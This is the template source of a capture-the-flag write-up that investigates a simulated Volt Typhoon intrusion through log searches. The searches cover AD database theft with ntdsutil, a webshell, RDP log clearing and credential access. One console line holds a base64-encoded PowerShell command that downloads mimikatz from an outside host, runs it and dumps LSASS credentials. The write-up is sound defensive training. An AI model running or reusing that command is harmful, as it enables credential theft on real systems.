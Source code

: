 {% from "macros.html" import console, image, text, code, list, link, header, script, imageModal %}

{{imageModal()}}

{{header("Initial Access", "initial-access")}}

{{text("We begin by learning at what time was <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>Dean's</code> password changed.")}}

{{text("In the <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>action_name</code> field we choose <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>Password Change</code> and add <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>dean-admin</code> as the username filter.")}}

{{image("../../static/writeups/volttyphoon/images/000001.jpg")}}

{{text("We reduced the number of events to two and get our answer.")}}

{{image("../../static/writeups/volttyphoon/images/000002.jpg")}}

{{text("Now we find the newly created user. I searched for the least popular user which was <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>voltyp-admin</code> and submitted him as the answer.")}}

{{image("../../static/writeups/volttyphoon/images/000003.jpg")}}

{{header("Execution", "execution")}}

{{text("Nextly, what command does the attacker run to find information about drives on server01 and server02?")}}

{{text("Simple, we just enter <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>server01</code> and <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>server02</code> into the search and get our command.")}}

{{image("../../static/writeups/volttyphoon/images/000004.jpg")}}

{{text("Then the attacker uses ntdsutil to copy the Active Directory database and archives it.")}}

{{text("We enter <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>ntdsutil</code> into our search bar and get one result.")}}

{{text("From the command we see that the attacker created a directory at <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>C:\Windows\Temp</code>, made a backup of the AD database and saved it in that folder path as <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>temp.dit</code>")}}

{{text("Let's now search directly for <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>temp.dit</code>")}}

{{text("We get 3 hits, and the first one contains the password we are looking for.")}}

{{image("../../static/writeups/volttyphoon/images/000005.jpg")}}

{{header("Persistence", "persistence")}}

{{text("The attacker created a webshell using base64 encoded text, in which directory was the web shell saved?")}}

{{text("Since we know  already that the <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>C:\Windows\Temp\</code> path was created by the attacker, I decided to investigate it further.")}}

{{text("I stumbled upon a lot of hits, copying csv files, user browser profiles, saving files on the other server, but there was also a base64 string which we were looking for that got saved into a new file.")}}

{{image("../../static/writeups/volttyphoon/images/000006.jpg")}}

{{header("Defense evasion", "defense-evasion")}}

{{text("Now we have to discover what cmdlet did the attacker use to remove RDP logs from the computer.")}}

{{text("I searched for <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>Terminal Server Client</code> which I knew that contained information about RDP connections, specifically the <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>Default</code> registry key.")}}

{{image("../../static/writeups/volttyphoon/images/000007.jpg")}}

{{text("We see that <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>HKCU:\Software\Microsoft\Terminal Server Client\Default</code> gets put into a variable <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>$registryPath</code> which is a little weird, so I investigated further.")}}

{{text("After searching for that variable, we get the answer to the question.")}}

{{image("../../static/writeups/volttyphoon/images/000008.jpg")}}

{{text("Next question asks us about the backup file of AD database from before, we simply search for the file from before.")}}

{{image("../../static/writeups/volttyphoon/images/000009.jpg")}}

{{header("Credential access", "credential-access")}}

{{text("Now we need to find three pieces of software that the attackers try to get.")}}

{{text("Since it is a <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>reg</code>, we simply search for that.")}}

{{image("../../static/writeups/volttyphoon/images/000010.jpg")}}

{{text("Now we are asked for another decoded command, meaning we should probably search for a base64 encoded string.")}}

{{text("After a couple of tries, I got the encoded string by searching for a powershell command that was executing something.")}}

{{image("../../static/writeups/volttyphoon/images/000011.jpg")}}

{{console("echo \"SW52b2tlLVdlYlJlcXVlc3QgLVVyaSAiaHR0cDovL3ZvbHR5cC5jb20vMy90bHovbWltaWthdHouZXhlIiAtT3V0RmlsZSAiQzpcVGVtcFxkYjJcbWltaWthdHouZXhlIjsgU3RhcnQtUHJvY2VzcyAtRmlsZVBhdGggIkM6XFRlbXBcZGIyXG1pbWlrYXR6LmV4ZSIgLUFyZ3VtZW50TGlzdCBAKCJzZWt1cmxzYTo6bWluaWR1bXAgbHNhc3MuZG1wIiwgImV4aXQiKSAtTm9OZXdXaW5kb3cgLVdhaXQ=\" | base64 -d", "")}}

{{header("Discovery and lateral movement", "discovery-and-lateral-movement")}}

{{text("We search for <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>wevtutil</code> which was used by the attackers to search for security logs.")}}

{{image("../../static/writeups/volttyphoon/images/000012.jpg")}}

{{text("Next question asks us about <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>server-02</code> which I stumbled upon before while exploring the <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>C:\Windows\Temp</code> path.")}}

{{image("../../static/writeups/volttyphoon/images/000013.jpg")}}

{{header("Collection", "collection")}}

{{text("And the last question is about the <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>.csv</code> that i also saw in the same path.")}}

{{image("../../static/writeups/volttyphoon/images/000014.jpg")}}

{{script()}}
